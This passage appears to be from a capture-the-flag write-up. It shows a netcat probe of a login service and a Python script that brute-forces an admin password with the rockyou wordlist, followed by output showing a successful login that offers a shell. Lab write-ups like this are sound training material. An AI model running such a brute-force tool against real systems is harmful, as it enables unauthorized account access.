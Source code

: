 ```console
$ nc 10.10.118.186 8000
admin
Password:
```

```python
#!/usr/bin/env python3
import socket
import time


host = '10.10.106.2'
port = 8000


with open('/usr/share/wordlists/rockyou.txt', 'r', encoding='latin-1') as file:  
    passwords = file.readlines()

def attempt_login(password):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))


        s.sendall("admin\n".encode('utf-8'))  # send "admin" to server

        # Get responce from server
        response = s.recv(1024).decode('utf-8', errors='replace')  
        print(f"Réponse du serveur après envoi de 'admin': {response}")

        if "Password:" in response:  
            print(f"Tentative avec le mot de passe : {password}")
            s.sendall((password + "\n").encode('utf-8')) 
            response = s.recv(1024).decode('utf-8', errors='replace')  
            print(f"Réponse du serveur : {response}")
            return "Welcome Admin" in response
    return False

for password in passwords:
    password = password.strip()  #
    success = attempt_login(password)
    if success:
        print(f"Mot de passe trouvé : {password}")
        break
    time.sleep(1) 
```
{: file="attack.py" }


By running the script, we successfully discover the password.

```console
$ python3 attack.py

Réponse du serveur : Welcome Admin!!! Type "shell" to begin
Mot de passe trouvé : [REDACTED]
```
